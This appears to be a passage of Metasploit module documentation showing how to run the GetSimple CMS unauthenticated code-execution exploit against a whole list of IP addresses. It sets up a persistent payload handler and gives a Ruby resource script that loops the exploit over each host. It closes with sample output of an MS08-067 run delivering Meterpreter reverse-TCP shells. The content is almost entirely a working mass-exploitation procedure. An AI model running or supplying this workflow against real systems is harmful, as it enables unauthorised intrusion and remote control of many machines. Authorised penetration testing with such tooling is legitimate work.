 1. Do: `use exploit/multi/handler`
2. Do: `set PAYLOAD [payload]`
3. Set other options required by the payload
4. Do: `set EXITONSESSION false`
5. Do: `run -j`

At this point, you should have a payload listening.

Next, create the following script. Notice you will probably need to modify the ip_list path, and payload options accordingly:

```
&#x3c;ruby&#x3e;
#
# Modify the path if necessary
#
ip_list = '/tmp/ip_list.txt'

File.open(ip_list, 'rb').each_line do |ip|
  print_status("Trying against #{ip}")
  run_single("use exploit/multi/http/getsimplecms_unauth_code_exec")
  run_single("set RHOST #{ip}")
  run_single("set DisablePayloadHandler true")

  #
  # Set a payload that's the same as the handler.
  # You might also need to add more run_single commands to configure other
  # payload options.
  #
  run_single("set PAYLOAD [payload name]")

  run_single("run")
end
&#x3c;/ruby&#x3e;
```

Next, run the resource script in the console:

```
msf > resource [path-to-resource-script]
```

And finally, you should see that the exploit is trying against those hosts similar to the following MS08-067 example:

```
msf > resource /tmp/exploit_hosts.rc
[*] Processing /tmp/exploit_hosts.rc for ERB directives.
[*] resource (/tmp/exploit_hosts.rc)> Ruby Code (402 bytes)
[*] Trying against 192.168.1.80

RHOST => 192.168.1.80
DisablePayloadHandler => true
PAYLOAD => windows/meterpreter/reverse_tcp
LHOST => 192.168.1.199

[*] 192.168.1.80:445 - Automatically detecting the target...
[*] 192.168.1.80:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 192.168.1.80:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 192.168.1.80:445 - Attempting to trigger the vulnerability...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Trying against 192.168.1.109
RHOST => 192.168.1.109
DisablePayloadHandler => true
PAYLOAD => windows/meterpreter/reverse_tcp
LHOST => 192.168.1.199
[*] 192.168.1.109:445 - Automatically detecting the target...
[*] 192.168.1.109:445 - Fingerprint: Windows 2003 - Service Pack 2 - lang:Unknown
```